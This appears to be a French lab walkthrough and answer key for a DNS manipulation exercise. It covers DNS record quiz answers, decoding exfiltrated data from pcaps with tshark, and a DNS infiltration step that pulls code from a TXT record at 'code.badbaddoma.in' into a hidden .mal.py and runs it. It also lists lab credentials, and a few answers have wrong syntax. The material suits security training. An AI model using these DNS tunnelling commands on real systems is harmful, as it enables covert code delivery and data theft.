 ## Manipulation de DNS

Installer l'environnement sur la machine Kali Linux :
```console
$ git clone https://github.com/kleosdc/dns-exfil-infil

$ sudo pip3 install -r requirements.txt
```

Installer iodine :
```console
$ sudo apt install iodine
```

Installer Wireshark :
```console
$ sudo apt install -y tshark
```

---

#### DNS :

Sous Windows, quelle commande utiliser pour requêter un enregistrement txt pour YouTube.com ?
```console
Réponse : nslookup type=txt youtube.com
```

Sous Linux, quelle commande utiliser pour requêter un enregistrement txt pour YouTube.com ?
```console
Réponse : dig -t txt facebook.com
```

Quel type d'adresses IP stocke le AAAA avec le nom de hôte ?
```console
Réponse : IPv6
```

Le nombre maximum de caracttères pour un enrigrement DNS est de 256. Vrai/Faux ?
```console
Réponse : Faux
```

Quel enregistrement DNS donne le nom du domaine en reverse-lookup ?
```console
Réponse : PTR
```

Quel serait le résultat d'un reverse-lookup pour l'adresse IPv4 suivante : 192.168.203.2 ?
```console
Réponse : 2.203.168.192.in-addr.arpa
```

Quelle est la taille maximale d'un nom DNS ? (en incluant les points!)
```console
253
```

---

#### Exfiltration DNS :

Se connecter à la machine cible en SHH en utilisant les crédentials :
* Utilsateur : user
* Mot de passe : P@ssword01

Parcourir les fichiers dans les dossiers :
```console
~/challenges/exfiltration
~/dns-exfil-infil/
```

```console
cd ~/challenges/exfiltration/orderlist
tshark -r order.pcap -T fields -e dns.qry.name > DNS_names.txt
python3 ~/dns-exfil-infil/packetyGrabber.py
```

Ignorer l'exception levée à la fin du script

Quel est le nom de la première transation ? 
```console
Réponse : Network Equip.
```

Quel est le montant de la transaction Firewall ?
```console
Réponse : 2500
```
Aller dans le dossier :
```console
~/challenges/exfiltration/identity
```

Pour chaque fichier *.pcap
```console
tshark -r cap1.pcap -T fields -e dns.qry.name
python3 ~/dns-exfil-infil/packetyGrabber.py
```

Quel fichier contient des requêtes DNS douteuses ?
```console
Réponse : cap3.pcap
```

Renseigner les texte après avoir décodé les données en utilisant le programe Pyhton packetyGrabber.py qui se trouve dans le dossier `~/dns-exfil-infil/`.
```console
Réponse : administrator:s3cre7P@ssword
```

---

#### Infiltration DNS :

Lire les instructions dans le fichier : 
```console
$ cat ~/challenges/infiltration/TASK
```

```console
$ nslookup -type=txt code.badbaddoma.in | grep Ye | cut -d \* -f2 > .mal.py

$ python3 ~/dns-exfil-infil/packetySimple.py

$ python3 .mal.py
```

Réponse : 4.4.0-186-generic
